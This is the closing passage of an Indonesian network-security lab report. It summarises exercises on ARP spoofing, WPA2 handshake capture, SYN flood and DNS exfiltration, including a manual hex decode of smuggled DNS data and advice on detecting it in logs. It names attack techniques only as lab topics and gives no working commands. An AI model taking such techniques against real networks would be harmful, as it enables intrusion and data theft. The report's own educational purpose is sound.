4. Dekode manual: pasangan hex `32 34 35 35 32 30 31 31 33 38 37` berturut-turut adalah karakter `2 4 5 5 2 0 1 1 3 8 7`, yaitu `24552011387`. Hasil ini diperoleh dari perhitungan, bukan dari screenshot `xxd -r -p`.

### 5. Kesimpulan

Data dapat diselundupkan lewat label subdomain pada query DNS dan tetap sampai ke server DNS penyerang. Pendeteksian dapat dilakukan dengan memeriksa log DNS untuk label yang panjang, berisi hex, atau berulang pada satu domain induk. Bukti deteksi dan dekode pada praktikum ini belum lengkap (daftar query mencurigakan dan hasil `xxd -r -p` tidak tertangkap).

---

## Catatan kecocokan bukti

Seluruh screenshot disertakan melalui tautan relatif pada setiap bagian tugas. Beberapa hasil ditulis secara terbatas sesuai bukti:

- **Tugas 3:** pergantian MAC gateway menjadi MAC penyerang tidak terlihat pada tabel ARP korban, dan entri statis dibuat untuk `172.20.0.1`, bukan `172.20.0.3`.
- **Tugas 4:** file capture tidak terbaca sebagai capture 802.11 sehingga tidak ada handshake yang dianalisis.
- **Tugas 6:** `SYN_RECV` hanya naik dari 0 ke 1, sehingga dampak gangguan SYN flood tidak terbukti.
- **Tugas 7:** daftar query mencurigakan dan keluaran `xxd -r -p` tidak tertangkap pada screenshot.

---

# KESIMPULAN AKHIR

Praktikum Kasus 8 mencakup tujuh materi keamanan jaringan: Docker dan Volume, Kriptografi, ARP Spoofing, Analisis Handshake WPA2, ICMP dengan Scapy, SYN Flood, dan DNS Exfiltration.

Bukti yang paling kuat terdapat pada Tugas 1 (data volume bertahan setelah container dihapus), Tugas 2 (dua hash SHA-256 identik dan sertifikat CN=k8.uts.local), Tugas 5 (echo reply bertipe 0 dengan TTL 64), serta handshake TCP normal pada Tugas 6. Tugas 3, 4, 6 (bagian SYN flood), dan 7 memiliki keterbatasan bukti sebagaimana dicatat di atas.
